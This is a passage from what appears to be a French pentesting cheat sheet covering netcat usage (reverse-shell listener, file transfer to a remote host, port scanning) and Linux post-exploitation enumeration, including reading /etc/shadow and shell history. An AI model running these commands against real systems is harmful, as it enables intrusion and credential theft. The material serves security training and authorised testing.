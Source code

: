 ### Netcat - Couteau suisse réseau

```bash
# Écouter sur un port (reverse shell)
nc -lvnp 4444

# Se connecter à un port
nc 192.168.100.20 80

# Transférer un fichier (réception)
nc -lvnp 4444 > file.txt

# Transférer un fichier (envoi)
nc 192.168.100.20 4444 < file.txt

# Port scanning
nc -zv 192.168.100.20 1-1000

# Banner grabbing
echo "" | nc -v -n -w1 192.168.100.20 22
```

---

## 💣 Post-Exploitation

### Escalade de privilèges Linux

```bash
# Informations système
uname -a
cat /etc/issue
cat /etc/*-release

# Informations utilisateur
id
whoami
sudo -l

# Recherche de SUID binaries
find / -perm -4000 -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null

# Fichiers writables
find / -writable -type f 2>/dev/null | grep -v proc

# Cron jobs
cat /etc/crontab
ls -la /etc/cron*

# Processus en cours
ps aux
ps aux | grep root

# Capacités (capabilities)
getcap -r / 2>/dev/null

# Historique des commandes
cat ~/.bash_history
cat ~/.mysql_history

# Fichiers sensibles
cat /etc/passwd
cat /etc/shadow
```